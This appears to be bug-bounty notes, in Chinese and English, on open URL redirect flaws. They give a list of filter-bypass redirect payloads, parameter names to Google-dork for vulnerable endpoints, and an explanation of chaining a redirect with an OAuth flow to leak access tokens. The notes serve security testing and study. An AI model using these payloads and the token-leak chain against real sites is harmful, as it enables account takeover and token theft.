 

## Open url redirects

> My favorite bug to find because I usually have a 100% success rate of using a
> “harmless” redirect in a chain if the target has some type of Oauth flow which
> handles a token along with a redirect



Open Url redirect举例，类似于：https://www.google.com/redirect?goto=https://www.bing.com/ 当浏览时，将会重定向URL到给定的参数（这里是www.bing.com）。许多开发者未对这类链接进行过滤或限制。但即使如此，过滤器有时可能会阻止你的前进。

以下是一些用于检测过滤器（filter）是否被使用的payload：

````
\/yoururl.com
\/\/yoururl.com
\\yoururl.com
//yoururl.com
//theirsite@yoursite.com
/\/yoursite.com
https://yoursite.com%3F.theirsite.com/
https://yoursite.com%2523.theirsite.com/
https://yoursite?c=.theirsite.com/ (use # \ also)
//%2F/yoursite.com
////yoursite.com
https://theirsite.computer/
https://theirsite.com.mysite.com
/%0D/yoursite.com (Also try %09, %00, %0a, %07)
/%2F/yoururl.com
/%5Cyoururl.com
//google%E3%80%82com
````

Some common words I dork for on google to find vulnerable endpoints: (don't forget
to test for upper & lower case!)

````
return, return_url, rUrl, cancelUrl, url, redirect, follow, goto, returnTo, returnUrl, r_url,
history, goback, redirectTo, redirectUrl, redirUrl
````



-----------------------------

学习Oauth login flow works相关的知识：

https://www.digitalocean.com/community/tutorials/an-introduction-to-oauth-2

 在Ouath login的场景中，如果有一个登陆页面发出像这样的请求

https://www.target.com/login?client_id=123&redirect_url=/sosecure

通常redirect_url在`*.target.com`  的白名单中。Spot the mistake?
Armed with an open url redirect on their website you can leak the token because as the redirect occurs the token is smuggled with the request.
